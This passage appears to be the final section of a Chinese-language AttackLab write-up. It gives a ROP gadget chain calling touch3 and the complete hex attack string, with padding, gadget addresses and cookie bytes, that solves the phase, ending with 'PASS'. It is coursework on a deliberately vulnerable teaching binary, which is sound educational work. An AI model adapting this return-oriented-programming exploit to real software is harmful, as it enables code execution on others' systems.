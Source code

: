```
popq %rax
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi
add_xy()
movq %rax,%rdi
touch3()
```
攻击字符串：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
PASS  
至此AttackLab结束

<p align = 'right'><font size = 3>by Nemo</font></p>
<p align = 'right'><font size = 3>2023.8.23</font></p>